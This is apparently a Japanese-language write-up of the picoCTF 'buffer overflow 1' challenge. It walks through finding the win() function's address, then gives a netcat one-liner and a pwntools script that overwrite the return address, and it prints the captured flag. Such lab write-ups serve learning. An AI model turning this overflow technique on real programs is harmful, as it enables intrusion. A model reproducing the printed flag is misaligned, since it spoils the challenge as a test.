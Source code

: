 # buffer overflow 1:Binary Exploitation

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](). You can view source [here](). And connect with it using `nc saturn.picoctf.net 53578`

# Solution

とりあえず、`nc saturn.picoctf.net 53578`を実行してみる。
```
$ nc saturn.picoctf.net 53578
Please enter your string: 
abcdefghijklmnopqrstuvwxyzabcdefghijklmnopqrstuvwxyz
Okay, time to return... Fingers Crossed... Jumping to 0x76757473
```
入力した文字の一部が出てきた。おそらく、`44文字+4文字(リトルエンディアン)`で何かするとフラグが出てきそうだ。
vlun.cを見てみると、
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
```
flag.txtを読み込んでいるwin関数を発見。この関数のアドレス値を+4文字の部分に入れる。アドレス値は`0x080491f6`。アドレス値は、readelfで探すか逆アセンブルして探す。
```
63: 080491f6   139 FUNC    GLOBAL DEFAULT   13 win)
```
```  
                     win                                             XREF[3]:     Entry Point (*) , 0804a0e0 , 
                                                                                          0804a17c (*)   
080491f6 f3  0f  1e  fb    ENDBR32
```
`(python3 -c 'import sys; sys.stdout.write("a"*44)'; echo -e '\xf6\x91\x04\x08') | nc saturn.picoctf.net 53578`を実行する。

```
$ (python3 -c 'import sys; sys.stdout.write("a"*44)'; echo -e '\xf6\x91\x04\x08') | nc saturn.picoctf.net 53578
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}
```
フラグが得られた。

`picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}`

以下、実行コード。
```python
from pwn import *

p = remote("saturn.picoctf.net", 53578)

payload = b"a"*44
payload += p32(0x080491f6)

p.sendline(payload)

p.interactive()
```

